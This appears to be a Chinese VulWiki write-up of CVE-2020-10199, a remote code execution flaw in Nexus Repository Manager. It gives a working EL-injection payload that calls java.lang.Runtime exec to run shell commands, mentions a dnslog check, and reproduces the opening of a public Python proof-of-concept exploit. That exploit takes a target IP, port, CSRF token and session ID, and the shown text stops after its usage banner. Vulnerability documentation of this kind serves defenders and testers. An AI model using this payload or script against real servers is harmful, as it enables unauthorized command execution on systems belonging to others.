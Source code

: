 ### （2）尝试创建文件

    $\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10199)NexusRepositoryManager远程代码执行漏洞/media/rId27.png)回到漏洞环境检查，文件夹success创建成功![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10199)NexusRepositoryManager远程代码执行漏洞/media/rId28.png)

### （3）dnslog测试

![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10199)NexusRepositoryManager远程代码执行漏洞/media/rId30.png)漏洞存在![5.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-10199)NexusRepositoryManager远程代码执行漏洞/media/rId31.png)

### poc&exp

> 影响版本 \<= 3.21.1
> 需要用户登录后提供csrf和sessionid（登录成功后从浏览器复制），代码执行目前无法回显

#### poc

    +----------------------------------------------------------------------------------------------------------+
    + DES: by zhzyker as https://github.com/zhzyker/exphub                                                     +
    +      CVE-2020-10199 need username & password                                                             +
    +----------------------------------------------------------------------------------------------------------+
    + USE: python3 <filename> <ip> <port> <csrf> <sessionid>                                                   +
    + EXP: python3 cve-2020-10199_poc.py 1.1.1.1 8081 0.9567822851573897 edfca15e-c721-45e2-bdef-e8b3c6364ddb  +
    + VER: Nexus Repository Manager OSS/Pro version <= 3.21.1                                                  +
    +----------------------------------------------------------------------------------------------------------+

> Nexus Repository Manager 3 远程命令执行漏洞

    #!/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author:zhzyker
    # from:https://github.com/zhzyker/exphub

    import sys
    import requests
    import json

    if len(sys.argv)!=5:
        print('+----------------------------------------------------------------------------------------------------------+')
        print('+ DES: by zhzyker as https://github.com/zhzyker/exphub                                                     +')
        print('+      CVE-2020-10199 need username & password                                                             +')
        print('+----------------------------------------------------------------------------------------------------------+')
        print('+ USE: python3 <filename> <ip> <port> <csrf> <sessionid>                                                   +')
        print('+ EXP: python3 cve-2020-10199_poc.py 1.1.1.1 8081 0.9567822851573897 edfca15e-c721-45e2-bdef-e8b3c6364ddb  +')